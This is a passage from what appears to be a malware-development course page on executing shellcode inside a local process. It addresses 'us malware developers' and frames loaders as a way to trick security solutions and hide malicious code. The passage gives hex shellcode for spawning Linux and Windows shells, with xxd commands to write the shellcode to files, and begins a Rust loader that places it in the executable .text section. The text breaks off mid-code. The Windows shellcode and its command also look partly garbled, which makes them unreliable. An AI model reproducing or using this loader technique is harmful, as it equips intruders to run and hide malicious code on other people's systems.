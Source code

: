 +++
title = "Execute shellcode in local process"
weight = 2
+++

## Local shellcode execution

Local shellcode execution, where the term "shellcode" refers to a small piece of independent code, in the form of an opcode suite, specifically designed to be injected and executed in the memory of a running process. Unlike traditional software, which is designed to perform specific tasks, shellcode is used for malicious purposes, exploiting a system's vulnerabilities to gain unauthorized access or control.

The term "local" in local shellcode execution means that the code is intended to run on the same process itself, as opposed to remote execution where an attacker can deploy the code on another process, also known as code injection and which we'll see in the "Evasion" part of the course. Local shellcode execution involves exploiting the capabilities provided by the operating system, enabling an attacker to inject his own code directly into the process's memory space.

So, for us malware developers, shellcode execution in our programs can help us to trick security solutions and hide malicious code. This type of shellcode-executing program is called a "loader". To do this, we need two things: firstly, a shellcode PIC (for "Position Independent Code") to execute, of course, and secondly, a region of memory with read, write and, above all, execute permissions.

In this part of the course, we'll look at the different techniques for executing shellcode.

We'll use the following shellcodes as examples:

- Linux, which will execute a "/bin/sh" shell:
```
echo '6a6848b82f62696e2f2f2f73504889e7687269010181342401010131f6566a085e4801e6564889e631d26a3b580f05' | xxd -r -p > shellcode_linux.bin
```

- Windows, which will execute a "cmd.exe" shell:
```
$ echo '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f0589c24801da4531c941b1884c01ca448b024901d8418b70204801de4831c949b947657450726f634148ffc18b048e4801d84c390875f2418b70244801de668b0c4e418b701c4801de8b048e4801d84889c748b801010101010101015048b856686f4479646201483104244889e231f665488b4e60488b4918488b712048ad489648ad488b48204883ec30ffd74883c4384889c648b801010101010101015048b8626c652f64796401483104244889e14883ec30ffd64883c438ebfe' | xxd - r -p > shellcode_windows. bin
```

### Run in ".text" section

The ".text" section is already executable by default, as this is the section that contains your binary code. This seems an appropriate place to execute shellcode, so let's see how we can place and execute shellcode in this section.

Here's the code structure:
```
.
├── Cargo.lock
├── Cargo.toml
└── src
 ├── main.rs
 ├── shellcode_linux.bin
 └── shellcode_windows.bin
```
Source:
```
# src/main.rs

use std::mem;

#[no_mangle]
#[link_section = ".text"]
```